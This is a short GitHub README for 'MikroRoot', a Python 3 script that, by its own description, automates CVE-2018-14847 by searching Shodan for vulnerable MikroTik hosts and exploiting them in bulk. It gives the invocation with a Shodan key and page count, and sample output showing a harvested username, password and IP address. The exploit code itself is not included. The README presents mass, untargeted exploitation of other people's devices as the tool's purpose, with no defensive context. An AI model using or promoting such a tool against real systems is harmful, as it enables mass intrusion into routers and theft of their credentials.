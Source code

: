 # MikroRoot
Automated version of CVE-2018-14847. It will scrape shodan for vulnerable host and then try to exploit them.

# How to use      
Note that this script will NOT run with Python2.x. Use only Python 3+       

MikroRoot:        
`python3 MikroRoot.py -k SHODAN_KEY -p page count`           
`User: ncss`        
`Pass: ncss!@#2018`     
`IP: 1.2.3.4`         

# Arguments       
**-p** page count to scrape       
**-k** Shodan key       
        
# Author of exploit    
**https://github.com/BasuCert/WinboxPoC**   
